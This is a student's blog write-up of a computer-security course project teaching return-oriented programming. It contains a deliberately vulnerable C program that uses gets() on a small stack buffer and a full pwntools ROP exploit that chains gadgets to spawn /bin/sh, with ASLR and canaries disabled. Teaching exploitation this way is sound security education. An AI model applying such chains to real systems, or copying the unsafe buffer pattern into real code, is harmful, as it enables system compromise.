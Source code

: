 ```yaml
---
layout: post
title:  "A rop project"
categories: [project]
tags: [ROP]
---
```


In the last semester i attended the computer security course, and since i had to do a project i made a simple program to exploit with a rop chain in order to explain how return oriented programming works.
Here i will explain everything about.
During my presentation i started talk about the fact that during the excution of a program the memory is under the constraint Write XOR Execute. Part of the memory that i can write i cannot execute and viceversa.
And so is here where Return Oriented programming come in action, with this technique when a program is vulnerable for example to a buffer overflow i can still execute malicious code even if i can't upload the shellcode directly in the stack.
Supposing to work on a x86 architecture, i have on the stack the base pointer and after that the return address of the function (see the image below).

![My helpful screenshot](/assets/stack1.png)

Here's the code that i wanted to exploit:
{% highlight c %}
include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

void r()
{
	char s[30];
	gets(s);
}

void ouch()
{
	printf("%s\n","hi!!");
}

int main()
{
	r();
	//printf("%s\n",s);	
	printf("%s\n","end!");
	return 0;
}
{% endhighlight %}

So the goal is to overwrite the return address, and consequentially what came after that with addresses of memory that contain little piece of code that terminate with the instruction ret and so on. So i search inside the program this little pieces of code that are called gadget. In this way after one of this little piece of code terminate is execution the next instruction that will be executed will be the one at address2 see the image below.

![My helpful screenshot](/assets/stack2.png)

And so on with this trick is possible execute a shell.
To do all of this i used Radare2(that allow me to search gadget inside the code) and pwntools(that simplify me the construction of the exploit).
All of this was did whit ASLR disabled and no stack canaries, that are two of contromeasures used to avoid this kind of attack.
To do all of this i had to search the right gadgets to execute the instructions and spawn /bin/sh.
The parameters to exec /bin/sh are:
- eax = 0xb
- ebx = address of memory of string "/bin/sh"
- ecx = pointer to pointer of string "/bin/sh"
- edx = env variable but that can be set to 0 with no problem

To simplify things i used the string "/bin//sh" because on linux is ignored the double slash.
So i searched the gadgets.
I found pop eax, pob ebx, and pop edx with no problems, the only one problem was for pop ecx see below: (but i decided to maintan it in order to find a way to patch it).

![My helpful screenshot](/assets/pop_ecx.png)

After that i search the address of the bss in order to have a place to write /bin//sh.
And after that i search the write-what-where gadget that allow me to write at a specific address a value with the use of two register. In this way using the pop instructions i could set value to register and with this gadget write the memory (the bss).

![My helpful screenshot](/assets/write_mem.png)

To patch the pop ecx i used a pop esi since in the gadget above there was or cl,byte[esi] in order to make the ecx value to not change. NOTE: that this work only because the specific value in the memory, proprably with ASLR enabled i should have to change to make this work.
After that i search for xor edx, edx. And in the end i found xor eax, eax and one last instruction that increase the al register, so i called it the number of times to reach the number of the syscall (0xb).
And in the end the int 0x80 to make the syscall.
To clarify i had to add an initial padding to fill the buffer.
In the end once i execute my program i had this:

![My helpful screenshot](/assets/PoC.png)

the ";" is to mantaint the interaction, anyway there is a method in pwntools that i didn't know at the time.
Here's the code of the final exploit.
{% highlight python %}
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *

DIM_BUF = 42

PAD = "A" * DIM_BUF

pop_eax =  0xf7ffafb5
pop_ebx =  0xf7ff2c21 
pop_ecx = 0xf7ff82f9 
                
pop_edx =   0xf7ff8c15 

pop_esi = 0xf7ff2949

shell1 = "/bin"
shell2 = "//sh"

mem_to_write = 0x56557020
write_the_mem = 0xf7feb47b # mov dword[edx], eax

zero_place = 0x56557040
#copy_zero_to_edx = 0xf7ff2f05

#mov_ecx = 0xf7ff2f19

xor_edx = 0xf7ff0670 
#mov_eax_ff = 0xf7ff1633 
xor_eax = 0xf7ff2534

inc1_eax =  0xf7fd9a96 
int_80 = 0xf7ff2195 

buf = PAD 

buf += p32(pop_edx) 
buf += p32(mem_to_write)
buf += p32(pop_eax)
buf += "/bin"
buf += p32(write_the_mem)
buf += p32(pop_edx) 
buf += p32(mem_to_write + 4)
buf += p32(pop_eax)
buf += "//sh"
buf += p32(write_the_mem)
buf += p32(pop_eax) 
buf += p32(mem_to_write)
buf += p32(pop_edx) 
buf += p32(mem_to_write + 12) 
buf += p32(write_the_mem)
buf += p32(pop_esi)
buf += p32(mem_to_write + 12)
buf += p32(pop_ecx)
buf += p32(mem_to_write + 12)
buf += p32(xor_edx)
buf += p32(mem_to_write) 
buf +="AAAAAAAA" #raw data
buf += p32(xor_eax) 

for i in range(11):
    buf += p32(inc1_eax) 

buf += p32(int_80) 

print(buf)

{% endhighlight %}
Maybe all of this is over simplified and not to much clear, i decided to not explain somethings in detail but i thing that in general the basic idea is ok. However this was my first article so i have a very loooooong road to improve my infosec skills (and a my english writing).



